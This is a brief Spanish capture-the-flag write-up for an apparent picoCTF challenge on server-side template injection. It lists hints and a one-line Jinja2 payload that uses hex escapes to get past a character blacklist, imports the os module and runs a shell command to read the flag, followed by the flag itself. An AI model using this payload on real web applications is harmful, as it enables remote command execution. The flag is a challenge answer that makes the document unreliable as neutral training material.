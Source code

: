 ## Descripción:


Hints:
- Server Side Template Injection
- Why is blacklisting characters a bad idea to sanitize input?

## Solución:
```
Se puso esto de injection:

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}

picoCTF{sst1_f1lt3r_byp4ss_ece726e9}

```


